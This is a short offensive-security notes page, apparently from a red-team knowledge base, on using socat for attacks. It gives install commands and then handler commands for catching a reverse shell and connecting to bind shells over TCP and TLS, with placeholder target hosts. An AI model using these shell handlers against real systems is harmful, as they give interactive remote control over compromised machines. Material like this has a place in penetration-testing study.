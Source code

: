 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - cross-platform
  - socat
---
```

# Socat

## 01 - Setup

Install `socat` according to your package manager.

```
$ sudo apt install -y socat

$ sudo dnf install -y socat

$ sudo pacman -S --noconfirm socat
```

Checking a remote connection with verbosed debug.

```
$ socat -dddd - tcp4:<remote_IP>:<remote_PORT>
```

> [!NOTE]
> Using root privileges to bind a listener to ports below 1024.

## 01 - Reverse Shell Handler

### 1.1 - TCP Method

```
$ socat file:`tty`,raw,echo=0 tcp-listen:<PORT>

$ socat -d -d tcp4-listen:443 STDOUT
```

## 02 - Bind Shell Handler

### 2.1 - TCP Method

```
$ socat file:`tty`,raw,echo=0 tcp:<target_IP>:<target_PORT>
```

### 2.2 - UDP Method

TODO: Make another shell handler for UDP

### 2.3 - TLS Method

```
$ socat - OPENSSL:<target_IP>:<target_PORT>,verify=0
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Implant/Cross Platform/Payloads/One-Liners/Netcat Variants/Socat]]